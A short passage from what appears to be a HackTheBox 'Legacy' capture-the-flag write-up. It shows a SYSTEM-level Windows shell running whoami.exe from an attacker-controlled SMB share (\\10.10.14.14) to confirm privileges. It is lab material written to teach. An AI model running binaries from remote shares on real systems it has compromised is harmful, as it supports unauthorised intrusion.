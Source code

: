     
    C:\WINDOWS\system32>\\10.10.14.14\a\whoami.exe
    NT AUTHORITY\SYSTEM
    

Of course there are other ways I could check, like having access to write in
certain places (`system32` for example). Getting `whoami.exe` is certainly one
of the easiest and most definitive methods.

[](/2019/02/21/htb-legacy.html)

